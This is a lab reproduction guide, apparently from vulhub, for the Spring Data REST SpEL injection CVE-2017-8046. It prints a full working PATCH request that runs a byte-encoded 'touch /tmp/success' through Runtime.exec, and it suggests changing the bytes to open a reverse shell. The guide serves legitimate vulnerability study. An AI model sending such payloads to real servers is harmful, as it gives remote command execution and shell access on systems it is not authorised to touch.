

# Spring Data Rest Remote Command Execution Vulnerability (CVE-2017-8046)

Spring Data REST is built on top of Spring Data to help developers develop RESTful web services more easily. In the REST API's patch method (implementation [RFC6902] (https://tools.ietf.org/html/rfc6902)), the value of path is passed to `setValue`, causing the execution of the SpEL expression, triggering remote command execution. Vulnerabilities.

Reference link:

- http://xxlegend.com/2017/09/29/Spring%20Data%20Rest Server PATCH Request Remote Code Execution Vulnerability CVE-2017-8046 Supplementary Analysis /
- https://tech.meituan.com/Spring_Data_REST_Remote Code Execution Vulnerability%28CVE-2017-8046%29_Analysis and Reproduction.html

## Environment Building

Run the following command to start the vulnerability environment:

```
Docker-compose up -d
```

Wait for the environment to start, then visit `http://your-ip:8080/` to see the return value of the json format, indicating that this is a Restful-style API server.

## Vulnerability recurrence

Visit `http://your-ip:8080/customers/1` to see a resource. We use the PATCH request to modify it:

```
PATCH /customers/1 HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json-patch+json
Content-Length: 202

[{ "op": "replace", "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{116,111,117,99,104,32,47,116,109,112, 47,115,117,99,99,101,115,115}))/lastname", "value": "vulhub" }]

```

The value of path is a SpEL expression. Sending the above packet will execute the command `touch /tmp/success` represented by `new byte[]{116,111,117,99,104,32,47,116,109,112,47,115,117,99,99,101,115,115}`. Then go into the container `docker-compose exec spring bash` and see:


Visible, success was successfully created.

Change the bytecode to a command to bounce the shell (note: [Java bounce shell restrictions and bypasses] (http://jackson.thuraisamy.me/runtime-exec-payloads.html)), successfully bounced back:

